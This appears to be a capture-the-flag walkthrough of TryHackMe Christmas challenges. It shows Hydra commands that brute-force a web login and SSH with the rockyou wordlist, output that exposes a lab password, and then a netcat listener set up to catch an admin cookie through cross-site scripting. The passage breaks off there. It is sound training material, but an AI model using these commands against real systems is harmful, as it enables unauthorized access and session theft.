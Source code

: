 ```console
| http-title: Christmas Challenge
|_Requested resource was /login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Use Hydra to bruteforce molly's web password. What is flag 1? (The flag is mistyped, its THM, not TMH)
```console
bibo318@parrot:~$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.14.193 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect."
```

## Use Hydra to bruteforce molly's SSH password. What is flag 2?
```console
bibo318@parrot:~$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.14.193 -t 4 ssh
Hydra v9.1-dev (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-14 22:18:51
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.14.193:22/
[22][ssh] host: 10.10.14.193   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-14 22:19:50
bibo318@parrot:~$ ssh molly@10.10.14.193
molly@ip-10-10-14-193:~$ ls
flag2.txt
molly@ip-10-10-14-193:~$ cat flag2.txt
```

# Day 18 : ELF JS 
```
McSkidy knows the crisis isn't over. The best thing to do at this point is OSINT

we need to learn more about the christmas monster

During their OSINT, they came across a Hacker Forum. Their research has shown them that this forum belongs to the Christmas Monster. Can they gain access to the admin section of the forum? They haven't made an account yet so make sure to register.

Access the machine at http://[your-ip-address]:3000 - it may take a few minutes to deploy.
```
READ [this](https://docs.google.com/document/d/19TJ6ANmM-neOln0cDh7TPMbV9rsLkSDKS3nj0eJaxeg/edit#)


## What is the admin's authid cookie value?
start by creating a account and log in to the forum. The plan is setting up a web server to recieve incoming cookie from the forum by using netcat (I learn this from BANDIT LV 20 so go check out). To setup the server, run ```nc -lvp 20000```. -l for listen, -v for verbose, and -p for port nummber.
